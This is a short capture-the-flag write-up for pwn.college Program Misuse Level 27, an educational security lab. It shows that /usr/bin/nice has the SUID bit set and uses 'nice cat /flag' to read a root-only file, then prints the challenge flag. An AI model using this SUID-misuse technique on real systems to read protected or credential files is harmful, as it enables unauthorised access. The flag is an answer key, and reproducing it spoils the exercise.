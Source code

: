 # pwn.college - Fundamentals - Program misuse - Level 27
```
$ /challenge/babysuid_level27
```
The SUID bit on `/usr/bin/nice` is set. 
```
$ nice cat /flag
```
`pwn.college{YFK6ZomiB8wThU45teKMhtVdMNZ.0VO2EDLyYjNyEzW}`